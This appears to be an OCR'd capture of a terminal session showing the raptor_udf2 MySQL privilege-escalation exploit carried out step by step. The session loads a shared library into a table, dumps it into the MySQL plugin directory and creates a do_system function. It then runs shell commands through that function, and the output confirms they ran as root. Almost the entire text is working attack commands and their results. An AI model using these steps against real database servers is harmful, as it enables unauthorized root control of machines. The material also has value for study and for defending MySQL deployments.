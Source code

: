 ```
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
Query OK, 1 row affected (0.01 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected, 1 warning (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so'; 
ERROR 1 (HY000): Can't create/write to file '/usr/lib/mysql/plugin/raptor_udf2.so' (Errcode: 2)
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so'; 
ERROR 1 (HY000): Can't create/write to file '/usr/lib/mysql/plugin/raptor_udf2.so' (Errcode: 2)
mysql> select * from mysql.func;

mysql> select * from mysql.func;                                                                                                                                                                                                   &#91;0/1206]
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function | 
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)                                   

mysql> select do_system('id > /tmp/out;');
+-----------------------------+
| do_system('id > /tmp/out;') |
+-----------------------------+
|                  4294967296 | 
+-----------------------------+
1 row in set (0.02 sec)                                   

mysql> select do_system('id > /tmp/out; chmod 777 /tmp/out');
+------------------------------------------------+
| do_system('id > /tmp/out; chmod 777 /tmp/out') |
+------------------------------------------------+
|                                     4294967296 | 
+------------------------------------------------+
1 row in set (0.00 sec)                                   

mysql> \! sh                                              
sh-3.2$ id                                                
uid=500(user) gid=500(user) groups=500(user)
sh-3.2$ exit                                              
exit                                                      
mysql> select do_system('id > /tmp/out; chmod 777 /tmp/out');
+------------------------------------------------+
| do_system('id > /tmp/out; chmod 777 /tmp/out') |
+------------------------------------------------+
|                                     4294967296 | 
+------------------------------------------------+
1 row in set (0.01 sec)                                   

mysql> exit                                               
Bye                                                       
user$ cat /tmp/out
uid=0(root) gid=0(root)                                   
user$ mysql -uroot
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.0.77 Source distribution

```